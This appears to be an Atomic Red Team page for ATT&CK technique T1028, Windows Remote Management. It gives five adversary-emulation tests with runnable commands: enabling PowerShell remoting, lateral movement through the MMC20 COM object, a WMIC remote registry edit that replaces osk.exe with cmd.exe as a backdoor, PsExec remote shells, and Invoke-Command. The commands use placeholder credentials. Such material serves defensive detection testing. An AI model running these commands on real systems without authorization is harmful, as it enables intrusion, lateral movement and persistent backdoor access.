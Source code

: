 # T1028 - Windows Remote Management
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1028)
<blockquote>Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services). (Citation: Microsoft WinRM) It may be called with the <code>winrm</code> command or by any number of programs such as PowerShell. (Citation: Jacobsen 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Windows Remote Management](#atomic-test-1---enable-windows-remote-management)

- [Atomic Test #2 - PowerShell Lateral Movement](#atomic-test-2---powershell-lateral-movement)

- [Atomic Test #3 - WMIC Process Call Create](#atomic-test-3---wmic-process-call-create)

- [Atomic Test #4 - Psexec](#atomic-test-4---psexec)

- [Atomic Test #5 - Invoke-Command](#atomic-test-5---invoke-command)


<br/>

## Atomic Test #1 - Enable Windows Remote Management
Powershell Enable WinRM

Upon successful execution, powershell will "Enable-PSRemoting" allowing for remote PS access.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Enable-PSRemoting -Force
```






<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement
Powershell lateral movement using the mmc20 application com object.

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | computer1|


#### Attack Commands: Run with `powershell`! 


```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Document.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```






<br/>
<br/>

## Atomic Test #3 - WMIC Process Call Create
Utilize WMIC to start remote process.

Upon successful execution, cmd will utilize wmic.exe to modify the registry on a remote endpoint to swap osk.exe with cmd.exe.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN&#92;Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|


#### Attack Commands: Run with `command_prompt`! 


```cmd
wmic /user:#{user_name} /password:#{password} /node:#{computer_name} process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```






<br/>
<br/>

## Atomic Test #4 - Psexec
Utilize psexec to start remote process.

Upon successful execution, cmd will utilize psexec.exe to spawn cmd.exe on a remote system.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN&#92;Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | localhost|
| psexec_exe | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{psexec_exe} \\#{computer_name} -u #{user_name} -p #{password} -s cmd.exe
```




#### Dependencies:  Run with `command_prompt`!
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_exe})
##### Check Prereq Commands:
```cmd
if (Test-Path "#{psexec_exe}"") { exit 0} else { exit 1} 
```
##### Get Prereq Commands:
```cmd
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory ("#{psexec_exe}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_exe}" -Force
```




<br/>
<br/>

## Atomic Test #5 - Invoke-Command
Execute Invoke-command on remote host.

Upon successful execution, powershell will execute ipconfig on localhost using `invoke-command`.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| host_name | Remote Windows Host Name | String | localhost|
| remote_command | Command to execute on remote Host | String | ipconfig|


#### Attack Commands: Run with `powershell`! 


```powershell
invoke-command -ComputerName #{host_name} -scriptblock {#{remote_command}}
```






<br/>
